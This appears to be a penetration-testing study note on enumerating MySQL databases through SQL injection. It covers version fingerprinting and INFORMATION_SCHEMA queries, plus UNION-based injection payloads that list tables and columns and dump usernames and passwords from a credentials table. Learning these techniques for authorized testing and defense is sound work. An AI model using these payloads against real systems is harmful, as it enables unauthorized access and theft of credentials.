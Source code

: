 # Database Enumeration

Database enumeration is a critical technique used in cybersecurity to extract detailed information about a database's structure and contents. By leveraging SQL queries, particularly in the context of SQL injection vulnerabilities, security professionals and attackers alike can uncover valuable insights, such as the names of databases, tables, and columns. This process not only aids in understanding the database architecture but also highlights potential security weaknesses that could be exploited. Understanding how to effectively perform database enumeration is essential for both securing applications and conducting penetration testing.

**Overview**

* Database Enumeration focuses on gathering data from a database using SQL queries within SQL injection contexts.
* It emphasizes on MySQL fingerprinting and utilizing the INFORMATION\_SCHEMA database for enumeration.

**MySQL Fingerprinting**

* **Purpose**: Identify the type of DBMS to tailor SQL queries accordingly.
* **Initial Guesses**:
  * Apache/Nginx → Likely MySQL (Linux)
  * IIS → Likely MSSQL (Windows)
* **Fingerprinting Queries**:
  * `SELECT @@version`: Returns MySQL version (e.g., `10.3.22-MariaDB-1ubuntu1`).
  * `SELECT POW(1,1)`: Returns `1` for numeric output.
  * `SELECT SLEEP(5)`: Delays response by 5 seconds for blind injections.

**INFORMATION\_SCHEMA Database**

* Contains metadata about databases and tables on the server.
* Essential for exploiting SQL injection vulnerabilities.
* Use the dot operator to reference tables in other databases.

**Enumeration Steps**

1. **List Databases**:
   * Query: `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
   * Output: Lists all databases, ignoring default ones (mysql, information\_schema, performance\_schema).
2. **Identify Current Database**:
   * Query: `SELECT database();`
   * Output: Identifies the active database (e.g., `ilfreight`).
3. **List Tables in a Database**:
   * Query: `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`
   * Output: Lists tables in the specified database (e.g., `credentials`, `framework`, `pages`, `posts`).
4. **Find Column Names in a Table**:
   * Query: `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`
   * Output: Identifies columns (e.g., `username`, `password`).
5. **Dump Data from a Table**:
   * Final Query: `cn' UNION select 1, username, password, 4 from dev.credentials-- -`
   * Output: Retrieves sensitive information (e.g., password hashes, API keys).

**Key Takeaways**

* Understanding the structure of the INFORMATION\_SCHEMA is crucial for effective database enumeration.
* Properly formed SQL queries can extract sensitive data through SQL injection vulnerabilities.
* Always use the correct database context when referencing tables and columns.
